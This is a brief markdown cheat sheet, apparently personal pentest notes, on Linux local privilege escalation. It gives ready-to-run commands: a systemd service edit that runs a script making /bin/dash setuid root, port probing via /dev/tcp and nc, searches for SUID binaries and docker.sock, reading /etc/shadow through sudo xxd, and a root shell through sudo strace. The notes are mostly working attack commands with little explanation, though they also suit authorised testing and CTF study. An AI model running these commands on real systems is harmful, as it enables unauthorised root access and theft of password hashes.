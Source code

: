 # LPE Linux

## Tools 

- [lse.sh](https://github.com/diego-treitos/linux-smart-enumeration)
- [LinEnum](https://github.com/rebootuser/LinEnum)

## Systemd

```bash
echo -e '#!/bin/bash\nchmod 4755 /bin/dash' > /tmp/priv.sh 
vi /lib/systemd/system/debug.service 
edit line : ExecStart in `/tmp/priv.sh
reboot
```

## Programms running

```bash
ps -aux | grep root
https://github.com/DominicBreuker/pspy 
```

## Services listening

```bash
netstat -latupen | grep LISTEN
netstat -nlt | awk -F : '/\<tcp\>/ {split($2,a," "); print a[1]}' | xargs -I % bash -c 'echo -ne "\033[1;33m[+]\033[m Port %:\t$(timeout 1 cat </dev/tcp/127.0.0.1/%)\n"'
netstat -nlt | grep 'tcp ' | grep -Eo "[1-9][0-9]*" | xargs -I {} sh -c "echo "" | nc -v -n -w1 127.0.0.1 {}"
```

## Docker

```bash
find / -group docker -exec ls -la {} 2>/dev/null \;
=> on cherche le docker.sock
```

## Binaries enum

```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \; find / -perm -g=s -o -perm -u=s -type f 2>/dev/null
```

## Hash dump

```bash
sudo xxd /etc/shadow | xxd -r
```

## Strace root

```bash
sudo strace -o /dev/null /bin/sh
```

